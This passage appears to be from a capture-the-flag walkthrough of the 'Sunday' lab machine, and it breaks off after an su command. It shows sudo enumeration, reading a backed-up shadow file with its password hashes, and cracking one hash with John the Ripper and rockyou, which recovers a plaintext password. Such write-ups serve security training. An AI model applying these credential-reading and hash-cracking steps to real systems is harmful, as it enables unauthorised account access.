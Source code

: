 We can run the /root/troll command as root. This is obviously a custom command so let’s run it to see what it’s doing (we don’t have read access to it).

```
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

It seems to be a script that prints the id of the user running it. Since we ran it with the ‘sudo’ command, it prints the id of root. We don’t have write access to the script, so we can’t escalate our privileges using it.

After a bit of digging, I found a backup file in the following directory.

```
/backup
```

It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.

```
sammy@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

It’s a backup of the shadow file. We already know Sunny’s password so we’re not going to attempt to crack it. Instead, copy Sammy’s password and save it in the file sammy-hash.txt. Then use John to crack the hash.

```
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:01:17 DONE (2020-01-05 21:03) 0.01292g/s 2648p/s 2648c/s 2648C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got a password! Let’s su into Sammy’s account.

```
su - sammy
```
